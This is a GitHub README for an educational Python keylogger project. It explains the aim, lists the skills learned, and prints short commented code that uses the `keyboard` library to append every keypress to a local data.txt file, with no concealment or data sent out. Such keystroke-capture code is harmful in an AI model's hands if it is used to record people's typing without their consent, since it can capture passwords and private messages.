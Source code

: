 <img align="center" src="https://media.licdn.com/dms/image/v2/D4D16AQGUNxQ7NSC05A/profile-displaybackgroundimage-shrink_350_1400/profile-displaybackgroundimage-shrink_350_1400/0/1738695150340?e=1744243200&v=beta&t=oXX-ixT9bR3dJcYCLv4KBs5wjKFoeP0524kFGHQMYmQ" alt="gabriellugo" />

# KEYLOGGER

<a href="https://github.com/GabrielLugooo/Keylogger" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/English%20Keylogger-000000" alt="English Keylogger" /></a>
<a href="https://github.com/GabrielLugooo/Keylogger/blob/main/README%20Spanish.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Spanish%20Keylogger-green" alt="Spanish Keylogger" /></a>

### Objective

This project aims to capture user keystrokes and store them in a text file. It is based on Python’s `keyboard` library to log each pressed key and save it in a `data.txt` file in real-time.

The keylogger is a useful tool for understanding how keyboard event capturing works in Python, enabling its application in areas such as cybersecurity, software testing, and accessibility.

### Skills Learned

- Capturing keyboard events in Python.
- Using the `keyboard` library.
- File handling in Python.
- Writing and reading data in text files.
- Automating processes with system events.

### Tools Used

![Static Badge](https://img.shields.io/badge/Python-000000?logo=python&logoSize=auto)

- Python
- `keyboard` library

### Project

#### Preview

<img align="center" src="https://i.imgur.com/uEPMPfS.jpeg" alt="keylogger1" />
<img align="center" src="https://i.imgur.com/7bhqjLd.jpeg" alt="keylogger2" />

#### Code with Comments (English)

```python
# Keylogger

# Install the necessary library with: pip install keyboard
# Import the library to detect keystrokes
import keyboard

# Function to be executed every time a key is pressed
def pressedKeys(key):
# Open (or create) the file 'data.txt' in append mode ('a')
with open('data.txt', 'a') as file:
# If the key pressed is the space bar, add a space to the file
if key.name == 'space':
file.write(' ')
else:
# Add the name of the pressed key to the file
file.write(key.name)

# Assign the pressedKeys function to be executed on every keystroke
keyboard.on_press(pressedKeys)

# Keep the program running waiting for keyboard events
keyboard.wait()
```

### Limitations

Keylogger it's just for educational purpose under the MIT License.

---

<h3 align="left">Connect with me</h3>

<p align="left">
<a href="https://www.youtube.com/@gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=55200&format=png" alt="@gabriellugooo" height="40" width="40" /></a>
<a href="http://www.tiktok.com/@gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=118638&format=png" alt="@gabriellugooo" height="40" width="40" /></a>
<a href="https://instagram.com/lugooogabriel" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=32309&format=png" alt="lugooogabriel" height="40" width="40" /></a>
<a href="https://twitter.com/gabriellugo__" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=phOKFKYpe00C&format=png" alt="gabriellugo__" height="40" width="40" /></a>
<a href="https://www.linkedin.com/in/hernando-gabriel-lugo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=8808&format=png" alt="hernando-gabriel-lugo" height="40" width="40" /></a>
<a href="https://github.com/GabrielLugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=80&id=AngkmzgE6d3E&format=png" alt="gabriellugooo" height="34" width="34" /></a>
<a href="mailto:lugohernandogabriel@gmail.com"> <img align="center" src="https://img.icons8.com/?size=50&id=38036&format=png" alt="lugohernandogabriel@gmail.com" height="40" width="40" /></a>
<a href="https://linktr.ee/gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://simpleicons.org/icons/linktree.svg" alt="gabriellugooo" height="40" width="40" /></a>
</p>

<p align="left">
<a href="https://github.com/GabrielLugooo/GabrielLugooo/blob/main/README.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/English%20Version-000000" alt="English Version" /></a>
<a href="https://github.com/GabrielLugooo/GabrielLugooo/blob/main/Readme%20Spanish.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Spanish%20Version-Green" alt="Spanish Version" /></a>
</p>

<a href="https://linktr.ee/gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Credits-Gabriel%20Lugo-green" alt="Credits" /></a>
<img align="center" src="https://komarev.com/ghpvc/?username=GabrielLugoo&label=Profile%20views&color=green&base=2000" alt="GabrielLugooo" />
<a href="" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/License-MIT-green" alt="MIT License" /></a>
